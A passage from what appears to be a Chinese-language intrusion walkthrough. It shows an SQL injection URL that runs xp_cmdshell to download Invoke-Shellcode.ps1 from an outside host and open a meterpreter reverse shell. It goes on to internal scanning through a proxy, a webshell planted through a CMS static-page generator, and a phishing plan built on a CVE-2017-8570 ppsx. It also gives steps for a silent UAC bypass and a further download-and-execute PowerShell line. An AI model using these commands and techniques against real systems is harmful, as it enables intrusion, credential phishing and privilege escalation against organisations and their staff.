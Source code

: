 执行，从数据库主机上反弹一个 meterpreter 连接：

```
http://10.101.101.13/?page=1;exec
 master..xp_cmdshell('IEX(New-Object Net.WebClient).DownloadString("
http://10.101.101.16/CodeExecution/Invoke-Shellcode.ps1"
;)
Invoke-Shellcode -payload windows/meterpreter/reverse_https -lhost 10.101.101.16 -lport 4444 -force')
```

随后用 use auxiliary/scanner/smb/smb_version扫描 smb 获取内网信息，发现 mail 服务器，然后用 use auxiliary/scanner/portscan扫描端口，发现开放 80 25 110 端口：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://ws1.sinaimg.cn/large/c334041bgy1fj7f291ny0j20ji09eguf.jpg)

使用 use auxiliary/server/socks4a 代理进内网后在 82 断口处发现了惊喜：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://ws1.sinaimg.cn/large/c334041bgy1fj7f44ai42j21470lyduw.jpg)

通过弱口令轻松进入到后台，发现一个可以生成静态站的地方：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://ws1.sinaimg.cn/large/c334041bgy1fj7f4wj7mqj21570kqaiw.jpg)

把自定义静态页面存储主路径改成 1.asp ，然后编辑一篇文章把木马代码放进去，重新生成静态页面 GetShell ：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://ws1.sinaimg.cn/large/c334041bgy1fj7f5n30scj215l0oethk.jpg)

这个服务器的 82 不能执行cmd，不支持aspx，不能跨目录到umail，但是在一个奇怪的地方发现一个一份企业通讯录，下载下来看到管理员邮箱：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://ws1.sinaimg.cn/large/c334041bgy1fj7f63g1m4j20is02agm8.jpg)

于是想到用伪造邮件的方法来钓管理员，参考两篇文章：

[http://www.freebuf.com/vuls/144054.html](http://www.freebuf.com/vuls/144054.html)

[http://www.91ri.org/15506.html](http://www.91ri.org/15506.html)

第一种方法：首先用 **CVE-2017-8570 Explot** 做一个钓鱼用的 ppsx ，由于原来的 exp 要用 Poershell 下载 shell.exe 再执行，这样容易被杀软发现，并且原来的 exp 执行反弹回来的 shell 权限不够，所以要考虑绕过 UAC ，让管理员点击恶意的 ppsx 后静默反弹一个高权限的shell ，如果用 nishang 给的 Invoke-PsUACme.ps1 ，执行之后会有一个一闪而过的黑框框，很让人感到怀疑，去掉这个一闪而过的黑框框很简单，因为我用 oobe 的方法在 Win7 上绕过 UAC ，所以我在这里只介绍在这种条件下去掉黑框框的方法，首先去掉 Invoke-PsUACme.ps1 第206行的 &amp; $execpath 代码，之后在调用 Invoke-PsUACme 的时候 -payload 参数写上你要执行的命令，最后用 rundll32.exe 静默启动 C:/Windows/System32/oobe/setupsqm.exe

```
IEX(New-Object Net.WebClient).DownloadString("
http://10.101.101.16/uacchm.ps1"
;)
```
